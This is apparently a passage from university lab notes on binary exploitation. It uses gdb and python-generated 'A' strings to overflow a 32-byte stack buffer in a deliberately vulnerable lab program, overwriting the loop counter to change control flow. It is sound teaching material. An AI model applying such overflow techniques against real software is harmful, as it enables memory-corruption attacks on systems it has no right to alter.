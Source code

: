 The first part of smashing the stack will be to change the control flow
of the program with respect to stack variables. Our first target is the
variable i which controls the while loop. The goal is to make it so the
loop loops less.

First lets setup the input in such a way so that we fill up the whole
buffer right up to the 32 byte boundary:

``` {.example}
(gdb) delete
Delete all breakpoints? (y or n) y
(gdb) run 5 `python -c "print 'A'*32"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 5 `python -c "print 'A'*32"`
0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
3 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
4 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Note that in gdb we can use backticks (\`) like in the shell to do
computations. I am using python to generate 32 A's. You can see this by
running the same python command in the terminal:

``` {.example}
user@si485H-base:2.3$ python -c "print 'A'*32"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

The `-c` says to execute the single following line as a python command.

Anyway, back to the gbd terminal, if we fill the buffer with 32 bytes,
things are ok, and the behavior is normal. Let's see what happens if we
write 33 A's.

``` {.example}
(gdb) run 5 `python -c "print 'A'*33"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 5 `python -c "print 'A'*33"`
[Inferior 1 (process 5918) exited normally]
```

Nothing happens! We get no prints. That's because we now wrote the ASCII
value of 'A' to i, which is 65 and greater than 5. But we can change the
command line argument and you'll start to see something happen:

``` {.example}
(gdb) run 66 `python -c "print 'A'*33"`
Starting program: /home/user/git/si485-binary-exploits/lab/01/vulnerable 66 `python -c "print 'A'*33"`
65 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB
[Inferior 1 (process 5927) exited normally]
```

Now we're getting somewhere. The variable i is equal to 65 and we should
print the string 66 times, but we only do so once. We also see that
we've somehow gained a 'B' to the output? That's because 65+1 is 66 and
in ASCII 66 is B.

